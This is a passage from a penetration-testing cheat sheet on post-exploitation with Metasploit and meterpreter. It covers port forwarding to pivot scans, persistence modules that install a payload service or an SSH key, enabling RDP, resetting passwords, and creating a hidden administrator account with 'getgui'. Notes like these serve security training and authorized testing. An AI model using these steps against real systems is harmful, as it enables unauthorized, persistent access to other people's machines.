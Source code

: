 **Port forwarding (meterpreter/metasploit)**

```sh
# Forward remote port to local port. Here, we want to scan the port 80 of the target 2
portfwd add -l 1234 -p 80 -r <target_sys_2_ip>

portfwd list
nmap -sV -sC -p 1234 localhost
```

## Persistence

### **Windows**

**Metasploit - Module**

Search persistence module (Windows). Ex: `exploit/windows/local/persistence_service`

* It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
* When you want to connect again you need to set a listener to receive the connection

***

**Enable RDP**

* First way with metasploit: search `enable_rdp` (and set session). Then connect to victim from attacker.

Note: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM or you can create a new account and add it to administrator group...

* Second way with metasploit/meterpreter (auto create account and settings):

```sh
# In meterpreter
run getgui -e -u user_you_want -p password_you_want

# This enables rdp service -> 
# Creates new user with the provided parameters -> 
# Hides user from windows login screen -> 
# Adds user to Remote Desktop Users and Administrators group
```

### **Linux**

**Metasploit**

Search persistence module (Linux). Example: `post/linux/manage/sshkey_persistence` (needed elevated privs - This module will add an SSH key to a specified user)

***

**Via SSH key**
